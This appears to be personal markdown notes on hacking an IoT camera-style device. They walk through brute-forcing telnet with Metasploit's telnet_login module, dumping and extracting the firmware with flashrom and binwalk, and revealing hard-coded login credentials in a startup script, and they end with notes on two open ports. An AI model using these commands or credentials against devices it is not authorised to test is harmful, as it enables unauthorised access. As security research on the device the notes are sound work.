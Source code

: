 # note

## Telnet user and password crack

### Metasploit

[metasplot for archlinuxarm](https://gitee.com/yjun123/alarm-pkgbuilds/tree/master/metasploit)

- start metasploit 

execute `msfconsole`

- user telnet auxiliary 

type `use auxiliary/scanner/telnet/telnet_login`

- get user/pass dictionary

[TgeaUs/Weak-password[(https://github.com/TgeaUs/Weak-password)

- set option

```
set rhosts 192.168.10.123 # set target host
set user_file 常用 # set username dictionary
set pass_file 常用 # set password dictionary
set stop_on_success true
set THREADS 4 # set thread to crack
```
- start exploit

execute `run/exploit`

### Hack firmware

[dumping-firmware-with-the-ch341a-programmer](https://www.blackhillsinfosec.com/dumping-firmware-with-the-ch341a-programmer/)

- dump firmware with ch341a programmer

  `sudo flashrom -p ch341a_spi --read SC150MBN1-firmware-dump.bin`

- extract the file from firmware with binwalk

  `binwalk -eM SC150MBN1-firmware-dump.bin`

- get user name and password

  ```bash
  # _SC150MBN1-firmware-dump.bin.extracted/_50040.extracted/_33F000.extracted/cpio-root/sbin/start.sh
  #!/bin/sh
  #
  # mark 13922845352
  #
  # usage: start.sh
  #
  
  ###########################################################
  login="lewei"
  pass="leweilewei"
  ipaddr="192.168.10.123"
  start="192.168.10.20"
  end="192.168.10.50"
  wname=`flash -a`
  wpassword=`flash -p`
  haspassword=`flash -h`
  ###########################################################
  ```

  

## Other open ports

- 7060

  - comminication port to App

  ![image-20210810114123816](image/taobao-comment-1.png)
  
  
  
  <img src="image/夜视保-screenshot.png" alt="夜视保截图" style="zoom:80%;" />
  
  
  
  - protocol
  
  ![image-20210810112532198](image/port-7060-protocol-boundary-start.png)
  
  ​								

<center>BoundaryS(tart)</center>

![image-20210810112944352](image/port-7060-protocol-boundary-end.png)

<center>BoundaryE(nd)</center>

​									tips: binary data `port-7060-data.bin` is in `/bin`

- 9060

  ​	wireless to UART port

  ![image-20210810113549866](image/port-9060-telnet.png)

<center>telnet 9060</center>

![image-20210810113648774](image/port-9060-minicom-uart.png)

<center>minicom UART</center>

​							
